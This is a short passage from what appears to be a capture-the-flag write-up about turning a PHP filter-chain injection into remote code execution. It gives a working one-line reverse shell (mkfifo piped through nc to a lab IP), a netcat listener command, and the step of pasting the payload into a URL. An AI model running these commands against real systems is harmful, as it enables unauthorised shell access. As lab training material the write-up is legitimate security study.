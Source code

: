 ![alt text](phpinfo.png)

Let's upgrade this command to one-line PHP reverse shell

```
python3 php_filter_chain_generator.py --chain '<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.214.126 1234 >/tmp/f"); ?>' | grep '^php' > payload.txt
```

Start listener
`nc -lvnp 1234`

And paste payload to url
![alt text](shell_url.png)

We have shell